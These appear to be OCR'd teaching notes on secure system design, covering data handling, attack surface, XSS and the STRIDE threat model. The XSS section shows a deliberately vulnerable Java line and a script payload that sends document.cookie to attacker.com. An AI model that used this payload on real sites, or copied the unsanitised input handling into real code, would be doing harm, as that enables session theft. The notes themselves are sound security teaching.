 **Identify and handle sensitive data.** Make sure that you trust the servers
which you are storing information. Make sure that sensitive data is being
encrypted (i.e. don't use plain text). Often we have different levels for the
different types of information.

**Always consider users.** Make sure that your policies are reasonable for the
average person to follow. That is, don't be annoying because then users will
try to circumvent your policy.

**Understand your attack surface.** Your **attack surface** is the sum of all
paths for data and commands into and out of the system. The fewer paths you
have, the easier it is to secure them all. Close all ports possible. Restrict
user privileges as much as possible.

**Design flexible systems.** Ensure that updates and changes to the system
don't break security. For example, don't leak secrets when people change their
password, don't leak secrets when components outside your control change, and
don't leak secrets when someone updates their system.

## Cross-Site Scripting XSS

Cross site scripting occurs where user input somehow changes the HTML output
(for other people) without sufficient cleaning. If this occurs, then a user
could inject script tags into the HTML which other users will then load. This
allows for basic things like vandalism of websites or even worse injection of
JavaScript which can spoof fake input boxes (e.g. credit card number) or load
some malware onto the client which just loaded the page. Here is an example of
a XSS vulnerability.

```java
page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

This could insert.

```
'><script>document.location='http://www.attacker.com/cgi-bin/cooki.cgi?foo='+document.cookie<script'
```

## Threat Modeling

In order to secure systems, we need to understand what we need to secure. To
help us this we have **threat models** which semi-formally describe how our
system could be insecure.

We can do threat modeling with **data flow diagrams** which models all the
nodes/actors in a system and how the data goes between them (and is validated).
Often the graph is segmented by *trust boundaries* (for example our local
server vs an unknown client).

One popular threat model is the **STRIDE threat model** which is an acronym for
the following.

* Spoofing: pretending to be someone else by using their credentials.
* Tampering: malicious modification of data.
* Repudiation: users deny an action because no proof that action happened.
* Information Disclosure: exposing information to those that shouldn't have it.
* Denial of Service: valid uses cannot access the system.
* Elevation of Privilege: user gains privilege they shouldn't have.
